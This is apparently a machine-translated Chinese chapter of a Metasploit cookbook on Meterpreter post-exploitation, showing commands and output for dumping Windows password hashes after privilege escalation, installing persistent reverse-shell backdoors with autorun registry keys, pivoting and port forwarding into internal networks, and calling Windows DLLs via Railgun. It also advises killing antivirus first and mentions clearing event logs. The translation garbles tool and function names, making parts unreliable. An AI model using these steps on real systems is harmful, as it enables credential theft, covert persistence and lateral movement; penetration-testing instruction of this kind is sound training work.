


# 六、高级 MeterMeter 脚本

在本章中，我们将介绍：

*   传递散列
*   设置与后门的持久连接
*   用 MeterMeter 旋转
*   使用 MeterMeter 进行端口转发
*   MeterMeter API 和混合器
*   轨道炮-将红宝石转化为武器
*   向 Railgun 添加 DLL 和函数定义
*   构建“Windows 防火墙解除激活器”MeterMeter 脚本
*   分析现有的 MeterMeter 脚本

# 导言

在上一章中，我们了解了几个强大的 MeterMeter 命令，这些命令对后期开发非常有帮助。MeterMeter 通过提供一个非常交互式和有用的命令解释器，为后期开发过程增加了很多灵活性。它不仅简化了任务，而且使其更加强大和全面。

在本章中，我们将学习一些先进的概念，从而使 MeterMeter 领先一步。到目前为止，我们一直在使用 Metasploit 提供给我们的各种命令和脚本，但在渗透测试过程中，可能会出现一种情况，即您必须将自己的脚本添加到 meterpreter。平台的模块化架构使得开发和集成您自己的脚本和模块变得非常容易。

本章开始时，我们将学习一些先进的计量器功能，如传递散列、数据透视、端口转发等。然后，我们将着手开发自己的 MeterMeter 脚本。为了完全理解本章，您应该了解基本的 Ruby 概念。即使是关于 Ruby 语言的基本概念也可以帮助您构建智能仪表脚本。为了方便读者，我将从一些基本的开发概念开始。然后，我们将分析一些现有的 Ruby 代码，看看如何重用它们或根据需要编辑它们。然后，我们将学习开发我们自己的简单“Windows 防火墙解除激活器”MeterMeter 脚本。

本章将增强您对该平台的详细了解。因此，让我们继续前进，开始制定食谱。

# 传递散列

传递哈希或哈希转储是提取 Windows 登录哈希文件的过程。Hashdump MeterMeter 脚本从目标计算机提取并转储密码哈希。散列可以用来破解登录密码，并获得授权进入局域网上的其他系统，以便将来进行笔测试。

## 准备好了吗

在开始使用该配方之前，让我们首先了解 Windows 密码及其存储格式。

当您在 Windows 登录屏幕中键入密码时，它会使用加密方案加密您的密码，该加密方案会将您的密码转换为如下所示：

`7524248b4d2c9a9eadd3b435c51404ee`

这是一个密码散列。这就是当您输入密码时实际要检查的内容。它对您键入的内容进行加密，并根据存储在注册表和/或 SAM 文件中的内容进行反弹。

SAM 文件保存本地计算机或域（如果是域控制器）上每个帐户的用户名和密码哈希。可在硬盘上的文件夹 `%systemroot%system32config`中找到。

但是，在计算机运行时，此文件夹锁定为所有帐户，包括管理员帐户。在操作期间，唯一可以访问 SAM 文件的帐户是“系统”帐户。因此，您必须记住，在尝试转储哈希时，您需要一个升级的特权。

哈希对您来说是完全陌生的，因为它们是加密文本。Windows 使用**NTLM（NT LAN Manager）**安全协议提供身份验证。它是旧版本 Windows 中使用的 LM 协议的继承者。

为了解码转储的散列，我们需要一个 NTLM/LM 解密程序。有不同的工具可供使用。其中一些使用蛮力技术（成熟者约翰，pwdump），而一些使用彩虹表（彩虹裂缝）。

## 怎么做。。。

我们将从一个活动的 MeterMeter 会话开始。我假设你已经穿透了目标并获得了一个米计会话。您可以参考[第 4 章](04.html "Chapter 4. Client-side Exploitation and Antivirus Bypass")、*客户端攻击和防病毒绕过*中的配方，了解有关危害 windows 机器的更多详细信息。脚本的使用简单明了。让我们首先检查目标机器上的权限。我们必须拥有系统特权才能提取哈希。我们将使用 `getuid`命令了解我们当前的权限级别。为了提升我们的特权，我们将使用 `getsystem`命令。

```
meterpreter > getuid
Server username: DARKLORD-PC\DARKLORD
meterpreter > getsystem
...got system (via technique 4).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

## 它是如何工作的。。。

现在我们有了目标的系统权限，所以我们可以继续尝试 hashdump 脚本。

```
meterpreter > run hashdump
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 78e1241e98c23002bc85fd94c146309d...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DARKLORD:1000:aad3b435b51404eeaad3b435b51404ee:3dbde697d71690a769204beb12283678::: 
```

您可以看到脚本已成功地从 SAM 文件中提取密码哈希。现在我们可以使用不同的工具来破解这个散列。一些著名的工具有 John the riper、pwdump、rainbow crack 等。

## 还有更多。。。

让我们看看解密散列的另一种方法，而不是使用前面讨论的工具。

### 在线密码解密

有一个非常流行的网站可以解密 NTLM/LM 哈希[http://www.md5decrypter.co.uk/](http://www.md5decrypter.co.uk/) 。它通过将散列与其庞大的散列数据库进行匹配来查找密码。这是一种有效、快速的破解简单、弱密码的技术。下面的屏幕截图显示了我们之前转储的哈希的解码结果：



如您所见，已找到输入哈希的匹配项，相应的可读密码为 123。

这里需要注意的一点是破解密码完全取决于密码的强度。与复杂密码相比，较弱的密码更容易破解。复杂密码将生成在线数据库中不存在的哈希值。因此，考虑使用基于彩虹表的饼干。有关此主题的更多信息，请访问以下 URL：

[http://bernardodamele.blogspot.in/#!http://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes.html](http://bernardodamele.blogspot.in/#!http://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes.html) 。

# 与后门建立持久连接

我们在本书开始时采用了一种预开发技术，重点是信息收集。然后，我们进入了开发阶段，在该阶段我们学习了不同的方法来破坏目标。然后，我们学习了一些有用的后开发技术，这些技术可以在破坏目标后实现。现在，在这个配方中，我们将学习**不断开发的技术**，在该技术中，我们将尝试与我们的目标建立持久的连接，以便我们可以随心所欲地连接到它。由于攻击者或目标计算机不能始终可用，因此后门攻击目标可以有效地设置持久连接。

## 准备好了吗

MeterMeter 为我们提供了两个脚本，可以执行后门目标的任务。它们是 Metsvc 和 Persistence。两个脚本的工作原理相似。让我们逐一处理这两个脚本。

### 注

这两个 MeterMeter 脚本都会在目标系统上创建文件，以便在防病毒程序中触发警报。因此，建议在运行这些脚本之前杀掉防病毒程序。

## 怎么做。。。

Metsvc 脚本通过在目标计算机上创建临时文件（如 DLL、后门服务器和服务）来工作。该脚本还可以启动匹配的 multi/handler 来自动连接回后门。 `-A`参数用于此目的。让我们在 Windows7 目标机器上运行脚本并分析结果。

```
meterpreter > run metsvc -h
OPTIONS:
-A Automatically start a matching multi/handler to connect to the service
-h This help menu
-r Uninstall an existing Meterpreter service (files must be deleted manually)
meterpreter > run metsvc -A
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\DARKLORD\AppData\Local\Temp\ygLFhIFX...
[*] >> Uploading metsrv.dll...
[*] >> Uploading metsvc-server.exe...
[*] >> Uploading metsvc.exe...
[*] Starting the service...
* Installing service metsvc
* Starting service
Service metsvc successfully installed. 
```

成功上载后门文件后，它将自动连接回端口 31337 上的 multi/handler。使用这个后门，我们可以随意轻松地连接到目标机器。

另一个有用的后门脚本是持久性脚本。它的工作原理与 Metscv 类似，但它有一些额外的功能，如定期连接回目标、在系统引导时连接回目标、自动运行等等。让我们看看我们可以选择的不同方案。

```
meterpreter > run persistence -h
Meterpreter Script for creating a persistent backdoor on a target host.
OPTIONS:
-A Automatically start a matching multi/handler to..
-L <opt> Location in target host where to write payload to..
-P <opt> Payload to use, default is
-S Automatically start the agent on boot as a service
-T <opt> Alternate executable template to use
-U Automatically start the agent when the User logs on
-X Automatically start the agent when the system boots
-h This help menu
-i <opt> The interval in seconds between each connection
-p <opt> The port on the remote host where Metasploit..
-r <opt> The IP of the system running Metasploit listening.. 
```

正如您所见，与 Metsvc 相比，它有一些额外的选项。让我们执行脚本并根据需要传递不同的参数。

```
meterpreter > run persistence -A -S -U -i 60 -p 4321 -r 192.168.56.101
[*] Running Persistance Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/DARKLORD-PC_20111227.0307/DARKLORD-PC_20111227.0307.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4321
[*] Persistent agent script is 610795 bytes long
[+] Persistent Script written to C:\Users\DARKLORD\AppData\Local\Temp\LHGtjzB.vbs
[*] Starting connection handler at port 4321 for windows/meterpreter/reverse_tcp
[+] Multi/Handler started!
[*] Executing script C:\Users\DARKLORD\AppData\Local\Temp\LHGtjzB.vbs
[+] Agent executed with PID 5712
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\DBDalcOoYlqJSi
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\DBDalcOoYlqJSi
[*] Installing as service..
[*] Creating service cpvPbOfXj 
```

## 它是如何工作的。。。

请注意随脚本传递的不同参数。 `-A`参数自动启动攻击机器上的侦听器。 `-S`操作员将后门设置为在每次 Windows 启动时加载。 `-U`操作员在用户每次登录系统时执行后门。 `-i`操作员设置后门尝试连接回代理处理程序的间隔。 `-p`为目标机器的端口号， `-r`为目标机器的 IP 地址。脚本执行的输出还包含一些有用的信息。该脚本已创建一个用于清理的资源文件，以便您可以在使用后删除后门。脚本已在目标计算机上的 `temp`文件夹中创建了一个 vbs 文件。它还创建了注册表项，以便在 Windows 每次启动时自动加载后门。

我们提供了一个 60 秒的间隔，让后门连接回代理处理程序。成功执行脚本后，您将看到目标机器上每隔 60 秒自动打开一个 MeterMeter 会话。

这个快速演示说明了如何与目标机器建立持久连接。您可以使用这两个脚本尝试不同的场景，并分析其工作情况。在下一个食谱中，我们将关注另一个有趣的概念，称为旋转。

# 与 MeterMeter 一起旋转

到目前为止，我们已经介绍了大多数主要的 MeterMeter 命令和脚本。您一定已经注意到，在开发后阶段，MeterMeter 的功能是多么强大。在本食谱中，我们将讨论一个最酷、也是我最喜欢的概念，叫做旋转。让我们首先了解旋转的含义，为什么需要旋转，最后了解 Metasploit 如何对旋转有用。

## 准备好了吗

在开始使用配方之前，让我们先详细了解旋转。数据透视是指渗透测试人员使用的方法，该方法使用受害系统攻击同一网络上的其他系统。这是一种多层攻击，在这种攻击中，我们甚至可以访问仅可供本地内部使用的网络区域，如内部网。考虑下面图表中所示的场景。



攻击者可以破坏连接到 Internet 的网络外部节点。然后，这些节点与防火墙连接。防火墙后面是主服务器。现在，由于攻击者无法访问服务器，他可以将节点用作访问服务器的媒介。如果攻击者能够成功地破坏节点，那么它也可以进一步穿透网络到达服务器。这是一个典型的场景，涉及到旋转。图中的红线显示了攻击者与服务器之间通过受害节点建立的枢轴路径。在本食谱中，我们将使用我们在上一章中学习的一些 MeterMeter 网络命令。

## 怎么做。。。

让我们看看如何使用 MeterMeter 实现前面讨论的场景。

在本例中，我们的目标节点是连接到网络的 Windows 7 机器。服务器正在 Windows 2003 上运行。该节点已被客户端浏览器漏洞破坏，我们已建立活动的 MeterMeter 连接。让我们从在目标节点上运行 ipconfig 开始，以查看其上的可用接口。

```
meterpreter > ipconfig
Interface 1
Hardware MAC: 00:00:00:00:00:00
IP Address: 10.0.2.15
Netmask : 255.255.255.0
VirtualBox Host-Only Ethernet Adapter
Hardware MAC: 08:00:27:00:8c:6c
IP Address : 192.168.56.1
Netmask : 255.255.255.0 
```

如您所见，目标节点有两个接口。一个是连接到 Internet 的 192.168.56.1，另一个是 10.0.2.15，它是内部网络的 IP 接口。我们的下一个目标是找到这个本地网络中还有哪些其他系统可用。为此，我们将使用一个名为 `arp_scanner`的 MeterMeter 脚本。此脚本将在内部网络上执行 ARP 扫描，以查找其他可用系统。

```
meterpreter > run arp_scanner -r 10.0.2.1/24
[*] ARP Scanning 10.0.2.1/24
[*] IP: 10.0.2.7 MAC 8:26:18:41:fb:33
[*] IP: 10.0.2.9 MAC 41:41:41:41:41:41 
```

因此，该脚本成功地在网络上发现了两个可用的 IP 地址。让我们选取第一个 IP 地址并在其上执行数据透视。

## 它是如何工作的。。。

为了使用 IP 10.0.2.7 访问系统（即服务器），我们必须通过目标节点 IP 10.0.2.15 路由所有数据包。

为此，我们将使用一个名为 `route.`的命令，我们在上一章中也了解了这个命令。要使用此命令，我们将对当前 MeterMeter 会话进行后台处理。

```
meterpreter > background
msf exploit(handler) > route add 10.0.2.15 255.255.255.0 1
[*] Route added
msf exploit(handler) > route print
Active Routing Table
====================
Subnet Netmask Gateway
------ ------- -------
10.0.2.15 255.255.255.0 Session 1 
```

查看 route 命令的参数。 `add`参数将把细节添加到路由表中。然后我们提供了目标节点和默认网关的 IP 地址。最后，我们提供了当前活动的 MeterMeter 会话 ID（即 1）。 `route print`命令显示了该表，您可以清楚地看到，通过该网络发送的所有流量现在都将通过 MeterMeter 会话 1。

现在，您可以对 IP 地址 10.0.2.7 进行快速端口扫描，我们以前无法访问该地址，但现在我们已将数据包路由到目标节点，因此我们可以轻松找到打开的端口和服务。一旦您确定它正在运行 Windows 2003 服务器，您可以继续使用 `exploit/windows/smb/ms08_067_netapi`或任何其他基于操作系统的漏洞来破坏服务器或访问其服务。

# 带计量表的端口转发

如果不讨论端口转发，对数据透视的讨论就永远不会结束。在本配方中，我们将继续上一个关于旋转的配方，并查看如何通过目标节点将数据和请求从攻击机器转发到内部网络服务器。这里需要注意的一点是，我们可以使用端口转发来访问内部服务器的各种服务，但是如果我们必须利用服务器，那么我们将不得不使用前面介绍的完整概念。

## 准备好了吗

我们将从前面配方中讨论的相同场景开始。我们已经破坏了目标节点，它是一台 Windows 7 机器，我们已经添加了路由信息，以转发通过 MeterMeter 会话在网络上发送的所有数据包。让我们看一下路线表。

```
msf exploit(handler) > route print
Active Routing Table
====================
Subnet Netmask Gateway
------ ------- -------
10.0.2.15 255.255.255.0 Session 1 
```

我们的桌子都准备好了。现在我们必须设置端口转发，以便我们的请求通过中继到达内部服务器。

## 怎么做。。。

假设内部服务器在端口 80 上运行 web 服务，我们希望通过端口转发来访问它。现在，为了实现这一点，我们将使用 `portfwd`命令。让我们使用此命令检查可用选项，然后传递相关值。

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
-L <opt> The local host to listen on (optional).
-h Help banner.
-l <opt> The local port to listen on.
-p <opt> The remote port to connect to.
-r <opt> The remote host to connect to.
meterpreter > portfwd add -l 4321 -p 80 -r 10.0.2.7
[*] Local TCP relay created: 0.0.0.0:4321 <-> 10.0.2.7:80 
```

成功执行该命令表明攻击者与内部服务器之间已设置本地 TCP 中继。攻击者计算机上的侦听器端口为 4321，内部服务器上要访问的服务位于端口 80 上。

因为我们已经设置了路由信息，所以整个中继过程是透明的。现在，如果我们尝试使用 URL `http://10.0.2.7:80`通过浏览器访问内部服务器，那么我们将被引导到内部网络的 http intranet 服务。

当您必须运行 Metasploit 不提供的命令或应用程序时，端口转发非常方便。在这种情况下，您可以使用端口转发来简化任务。

这是港口转运的一个小演示。在下一步中，我们将从 Ruby 编程开始，开发我们自己的 MeterMeter 脚本。

## 它是如何工作的。。。

端口转发的工作原理很简单，即从不安全的位置或网络提供受限服务。可使用经过认证或可靠的系统/软件在不安全网络和安全网络之间建立通信媒介。在第一章中，我们已经讨论了端口转发的一个简单用法，其中讨论了在虚拟机上设置 Metasploit 并使用 PuTTY 将其与主机操作系统连接。


上图通过一个简单的示例演示了端口转发的过程。外部源希望访问在端口 6667 上运行的 IRC 服务器，但防火墙配置为阻止对端口 6667 的任何外部访问（图中的红线）。因此，外部源连接到运行在端口 22 上的 SSH 服务器（例如 PuTTY），该端口未被防火墙阻止。这将为外部源提供防火墙绕过，现在它可以通过端口转发从端口 22 到端口 6667 访问 IRC 服务器。因此，作为端口转发的结果，将创建一个访问隧道（图中的蓝线）。

# MeterMeter API 和混合器

在过去的一章半中，我们广泛了解了如何将 MeterMeter 用作潜在的开发后工具。您可能已经意识到 MeterMeter 的重要作用，它使我们的渗透任务更容易、更快。现在，根据这个配方，我们将继续讨论一些与 MeterMeter 相关的高级概念。我们将深入了解 Metasploit 的核心，以了解 MeterMeter 脚本如何工作以及如何构建自己的脚本。

从渗透测试人员的角度来看，了解如何实现我们自己的脚本技术以满足场景的需要是非常必要的。在某些情况下，当您必须执行任务时，MeterMeter 可能不足以解决您的任务。所以你不能袖手旁观。这就是开发我们自己的脚本和模块变得方便的地方。让我们从菜谱开始。在本食谱中，我们将讨论 MeterMeter API 和一些重要的混合，然后在后面的食谱中，我们将编写自己的 MeterMeter 脚本。

## 准备好了吗

MeterMeter API 有助于程序员在渗透测试期间实现自己的脚本。由于整个 Metasploit 框架都是使用 Ruby 语言构建的，因此 Ruby 编程经验可以增强 Metasploit 的渗透体验。我们将在接下来的几个食谱中处理 Ruby 脚本，因此需要一些 Ruby 编程经验。即使您对 Ruby 和其他脚本语言有了基本的了解，也很容易理解这些概念。

### 提示

**下载示例代码**

您可以下载您在[账户购买的所有 Packt 书籍的示例代码文件 http://www.packtpub.com](http://www.packtpub.com) 。如果您在其他地方购买了本书，您可以访问[http://www.packtpub.com/support](http://www.packtpub.com/support) 并注册，将文件直接通过电子邮件发送给您。

## 怎么做。。。

让我们首先在 MeterMeter 上启动一个交互式 Ruby shell。在这里，我假设我们已经利用了目标（Windows 7）并有一个活动的 MeterMeter 会话。

使用 `irb`命令可以启动 Ruby shell。

```
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client 
```

现在我们进入了 Ruby shell，可以执行 Ruby 脚本了。让我们从两个数字的基本加法开始。

```
>> 2+2
=> 4 
```

因此，我们的 shell 工作正常，可以解释这些语句。现在让我们执行一个复杂的操作。让我们创建一个散列并将一些值与键一起存储在其中。然后，我们将有条件地删除这些值。脚本将如下所示：

```
x = { "a" => 100, "b" => 20 }
x.delete_if { |key, value| value < 25 }
print x.inspect 
```

脚本很容易理解。在第一行中，我们创建了关键点（a 和 b）并为它们赋值。然后，在下一行中，我们添加了一个条件，删除任何值小于 25 的哈希元素。

让我们看看一些打印 API 调用，它们在编写 MeterMeter 脚本时对我们很有用。

*   `print_line("message"):`此调用将打印输出，并在末尾添加回车符。
*   `print_status("message"):`此调用在脚本语言中最常用。此调用将提供一个回车符，并打印正在执行的任何内容的状态，并在开头加上[*]前缀。

    ```
    >> print_status("HackingAlert")
    [*] HackingAlert
    => nil 
    ```

*   `print_good("message"):`此调用用于提供任何操作的结果。消息显示时，开头带有[+]前缀，表示操作成功。

    ```
    >> print_good("HackingAlert")
    [+] HackingAlert
    => nil 
    ```

*   `print_error("message"):`此调用用于显示脚本执行过程中可能出现的错误消息。该消息显示时，错误消息的开头带有[-]前缀。

    ```
    >> print_error("HackingAlert")
    [-] HackingAlert
    => nil 
    ```

我之所以讨论这些不同的打印调用，是因为它们在不同情况下编写 MeterMeter 脚本时被广泛使用。您可以在 `/opt/framework3/msf3/documentation`中找到与 MeterMeter API 相关的文档。仔细阅读，以便有一个清晰而详细的理解。您也可以参考 `/opt/framework3/msf3/lib/rex/post/meterpreter`，在这里可以找到许多与 MeterMeter API 相关的脚本。

这些脚本中包含各种 MeterMeter 核心、桌面交互、特权操作和更多命令。查看这些脚本，以熟悉 MeterMeter 如何在受害系统中运行。

### **MeterMeter 混合器**

MeterMeter 混合是特定于 Metasploit 的 irb 调用。这些调用在 irb 中不可用，但它们可用于表示编写 MeterMeter 脚本时最常见的任务。它们可以简化我们编写特定于 MeterMeter 的脚本的任务。让我们看看一些有用的混音：

*   `cmd_exec(cmd):`这将以隐藏和通道化的方式执行给定命令。命令的输出作为多行字符串提供。
*   `eventlog_clear(evt = ""):`这将清除给定的事件日志，如果没有给定，则清除所有事件日志。它返回已清除的事件日志数组。
*   `eventlog_list():`枚举事件日志并返回包含事件日志名称的数组。
*   `file_local_write(file2wrt, data2wrt):`将给定字符串写入指定文件。
*   `is_admin?():`标识用户是否为管理员。如果用户是管理员，则返回 true；否则返回 false。
*   `is_uac_enabled?():`确定系统上是否启用**用户账户控制（UAC）**。
*   `registry_createkey(key):`这将创建一个给定的注册表项，如果成功，则返回 true。
*   `registry_deleteval(key,valname):`这将删除给定键和值名称的注册表值。如果成功，则返回 true。
*   `registry_delkey(key):`这将删除给定的注册表项，如果成功，则返回 true。
*   `registry_enumkeys(key):`枚举给定注册表项的子项，并返回子项数组。
*   `registry_enumvals(key):`这将枚举给定注册表项的值，并返回值名称数组。
*   `registry_getvaldata(key,valname):`返回给定注册表项的数据及其值。
*   `service_create(name, display_name, executable_on_host,startup=2):`此函数用于创建运行自己流程的服务。其参数为服务名称为字符串，显示名称为字符串，启动时将在主机上执行的可执行文件路径为字符串，启动类型为整数：2 表示自动，3 表示手动，4 表示禁用
*   `service_delete(name):`此功能用于通过删除注册表中的项来删除服务。
*   `service_info(name):`获取 Windows 服务信息。信息以散列形式返回，其中包含显示名称、启动模式和服务执行的命令。服务名称区分大小写。散列键是名称、开始、命令和凭据。
*   `service_list():`此列表列出了所有存在的 Windows 服务。它返回一个包含服务名称的数组。
*   `service_start(name):`此功能用于服务启动。如果服务已启动，则返回 0；如果服务已启动，则返回 1；如果服务已禁用，则返回 2。
*   `service_stop(name):`此功能用于停止服务。如果服务成功停止，则返回 0；如果服务已停止或禁用，则返回 1；如果服务无法停止，则返回 2。

这是对一些重要的 MeterMeter 混合器的快速参考。使用这些 mixin 可以降低脚本的复杂性。我们将在接下来的几个食谱中了解它们的用法，我们将在这里创建和分析 MeterMeter 脚本。

## 它是如何工作的。。。

MeterMeter API 只是创建了一个小型 Ruby 解释器，可以理解和解释 Ruby 指令。使用 API 的主要优点是，它使我们能够灵活地执行自己的操作。我们不能拥有所有操作的命令。在某些情况下，我们可能需要特定的脚本来执行任务。这就是 API 可以方便使用的地方。

# 轨道炮-将红宝石转化为武器

在前面的配方中，我们看到了使用 MeterMeter API 来运行 Ruby 脚本。让我们向前迈出一步。假设我们想在受害者机器上进行远程 API 调用，那么最简单的方法是什么？铁路炮是显而易见的答案。它是一个 MeterMeter 扩展，允许攻击者直接调用 DLL 函数。通常，它用于调用 Windows API，但我们可以调用受害者机器上的任何 DLL。

## 准备好了吗

要开始使用 Railgun，我们需要在目标机器上进行活动的 MeterMeter 会话。要启动 Ruby 解释器，我们将使用前面配方中讨论的 `irb`命令。

```
meterpreter>irb
>> 
```

## 怎么做。。。

在我们开始调用 DLL 之前，让我们先看看为了充分利用 Railgun 需要遵循的基本步骤。

1.  确定要调用的函数。
2.  将功能定位在[上 http://msdn.microsoft.com/en-us/library/aa383749（v=vs.85）。aspx](http://msdn.microsoft.com/en-us/library/aa383749(v=vs.85).aspx)。
3.  检查函数所在的库（DLL）（例如， `kernel32.dll)`）。
4.  所选库函数可以调用为 `client.railgun.dll_name.function_name(arg1, arg2, ...)`。

Windows MSDN 库可用于识别要在目标计算机上调用的有用 DLL 和函数。让我们调用 `shell32.dll`的一个简单 `IsUserAnAdmin`函数并分析输出。

```
>> client.railgun.shell32.IsUserAnAdmin
=> {"GetLastError"=>0, "return"=>false} 
```

我们可以看到，函数返回了 `false`值，表示用户不是管理员。让我们升级我们的特权，再试一次。

```
meterpreter > getsystem
...got system (via technique 4).
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
>> client.railgun.shell32.IsUserAnAdmin
=> {"GetLastError"=>0, "return"=>true} 
```

这次函数返回 `true`，表示我们的权限提升成功，现在我们作为系统管理员工作。Railgun 为我们提供了灵活性，可以轻松地执行那些没有以模块形式出现的任务。因此，我们不仅限于框架提供的那些脚本和模块，事实上，我们可以根据需要进行调用。

您可以通过错误检查将此调用进一步扩展到一个小的 Ruby 脚本中：

```
print_status "Running the IsUserAnAdmin function"
status = client.railgun.shell32.IsUserAnAdmin()
if status['return'] == true then
print_status 'You are an administrator'
else
print_error 'You are not an administrator'
end 
```

使用轨道炮是一种非常强大和激动人心的体验。您可以练习自己的调用和脚本来分析输出。但是，如果要调用的 DLL 或函数不是 Railgun 定义的一部分，该怎么办。在这种情况下，Railgun 还为您提供了向 Railgun 添加自己的功能和 DLL 的灵活性。我们将在下一个食谱中处理它。

## 它是如何工作的。。。

Railgun 是一种特殊的 Ruby 命令解释器，可用于对受害目标进行远程 DLL 调用。远程 DLL 调用是渗透测试中的一个重要过程，因为它向我们提供了对受害目标的命令，以完全权限执行任何系统指令。

## 还有更多。。。

轨道炮是一种有趣的工具，可以增强渗透测试过程。让我们了解更多关于轨道炮的信息。

### 轨道炮定义和文件

Railgun 目前支持十种不同的 Windows API DLL。您可以在以下文件夹中找到它们的定义： `pentest/exploits/framework3/lib/rex/post/meterpreter/extensions/stdapi/railgun/def`

除此之外，您还可以从以下位置阅读 Railgun 文档：

`/opt/framework3/msf3/external/source/meterpreter/source/extensions/stdapi/server/railgun/railgun_manual.pdf`

# 向 Railgun 添加 DLL 和函数定义

在上一个配方中，我们着重于通过 Railgun 调用 Windows API DLL。在本配方中，我们将重点关注向 Railgun 添加我们自己的 DLL 和函数定义。为了做到这一点，我们应该了解 Windows DLL。Railgun 手册可以帮助您快速了解添加函数定义时可以使用的不同 Windows 常量。

## 怎么做。。。

向 Railgun 添加新的 DLL 定义是一项简单的任务。假设您想添加随 Windows 附带的 DLL，但它不在您的 Railgun 中，那么您可以在 `pentest/exploits/framework3/lib/rex/post/meterpreter/extensions/stdapi/railgun/def`下创建一个 DLL 定义，并将其命名为 `def_dllname.rb`。

1.  考虑将 SHILL32.DLL 定义添加到轨道炮中的例子。我们可以从添加以下代码行开始：

    ```
    module Rex
    module Post
    module Meterpreter
    module Extensions
    module Stdapi
    module Railgun
    module Def
    class Def_shell32
    def self.create_dll(dll_path = 'shell32')
    dll = DLL.new(dll_path, ApiConstants.manager)
    ......
    end
    end
    end; end; end; end; end; end; end 
    ```

2.  将此代码保存为 `def_shell32.dll`将为 shell32.dll 创建轨道炮定义。
3.  The next step is to add functions to the DLL definition. If you take a look at the `def_shell32.dll` script in Metasploit you will see that the `IsUserAnAdmin` function is already added into it.

    ```
    dll.add_function('IsUserAnAdmin', 'BOOL', []) 
    ```

    该函数只返回布尔值 True 或 False，具体取决于条件。类似地，我们可以在 shell32.dll 中添加自己的函数定义。考虑添加 AutoT0-Tee 函数的例子。这将刷新 Windows 剪贴板上的所有数据。

4.  在 shell32.dll 定义中添加以下代码行将达到我们的目的：

    ```
    dll.add_function('OleFlushClipboard' , 'BOOL' , []) 
    ```

### 它是如何工作的。。。

要测试该函数，请保存该文件并返回 MeterMeter 会话，以检查该函数是否成功执行。

```
>> client.railgun.shell32.OleFlushClipboard
=> {"GetLastError"=>0, "return"=>true} 
```

或者，您也可以使用 `add_dll`和 `add_function`将 DLL 和函数直接添加到 Railgun。下面是检查 shell32 可用性的完整脚本。dll 和 `OleFlushClipboard`函数，如果它们不存在，则使用 `add_dll`和 `add_function`调用添加它们。

```
if client.railgun.get_dll('shell32') == nil
print_status "Adding Shell32.dll"
client.railgun.add_dll('shell32','C:\\WINDOWS\\system32\\shell32.dll')
else
print_status "Shell32 already loaded.. skipping"
end
if client.railgun.shell32.functions['OleFlushClipboard'] == nil
print_status "Adding the Flush Clipboard function"
client.railgun.add_function('shell32', 'OleFlushClipboard', 'BOOL', [])
else
print_status "OleFlushClipboard already loaded.. skipping"
end 
```

这是一个使用 Railgun 作为强大工具的简短演示，可以根据需要调用 Windows API。您可以在 MSDN 库中查找各种有用的 Windows API 调用，并将它们添加到 Railgun 中，以增强框架的功能。它可用于调用驻留在目标计算机上的任何 DLL。在下一个配方中，我们将继续开发我们自己的 MeterMeter 脚本。

# 构建“Windows 防火墙解除激活器”MeterMeter 脚本

到目前为止，我们已经使用了几个 MeterMeter 脚本，例如 `killav.rb`和 `persistence.rb`。让我们开始讨论开发我们自己的 MeterMeter 脚本。Ruby 知识对于在 Metasploit 中编写任何模块都是必不可少的。你应该对 Ruby 有基本的了解。没有足够的文档可以直接了解 MeterMeter 脚本。最简单和最好的实践是学习 Ruby 语言，并排查看各种可用模块的代码。您还可以阅读 Metasploit 开发者指南，了解框架提供的不同库，在编写自己的模块时可以使用这些库。文件可在[中找到 http://dev.metasploit.com/redmine/projects/framework/wiki/DeveloperGuide](http://dev.metasploit.com/redmine/projects/framework/wiki/DeveloperGuide) 。

我们将在这里开发的脚本是一个 Windows Vista/7 防火墙反激活器脚本。它将使用名为 `netsh`的 Windows 命令，MeterMeter 将使用名为 `cmd_exec()`的 mixin 在目标机器上执行该命令。

## 准备好了吗

MeterMeter 脚本与被利用的客户端一起在上下文中运行，因此您可以更轻松地专注于希望通过脚本执行的任务。您不必担心连接性或任何其他参数。让我们看看在编写 MeterMeter 脚本时应该牢记的一些重要准则

*   **避免全局变量：**这是在任何框架上编码的一般原则。应避免使用全局变量，因为它们可能会干扰框架变量。仅使用实例、局部和常量变量。
*   **注释的使用：**编写代码时注释是必不可少的。这可以帮助您跟踪负责特定操作的部件。
*   **包括参数：**您可能已经注意到，在一些食谱中，我们是如何随脚本传递参数的。最基本但最有用的参数是 `-h`或 `help`选项。
*   **打印结果：**打印操作结果可以证明脚本执行成功还是失败。应广泛使用 `print_status, print_error`等不同的打印调用来显示相关信息。
*   **平台验证：**确保您验证了希望脚本在其上执行操作的平台。
*   **维护文件约定：**完成脚本编写后，保存在 `/pentest/exploits/framework3/scripts/meterpreter`下。遵循框架文件约定可以避免任何冲突。
*   **混合器的使用：**混合器是 MeterMeter 中的一个重要概念。使用 mixin，我们可以使脚本看起来更简单、更容易。

在编写 MeterMeter 脚本时，应牢记这些准则。

让我们打开任何文本编辑器开始编写 Ruby 脚本。如果您正在处理回溯，则可以使用 Gedit 文本编辑器。

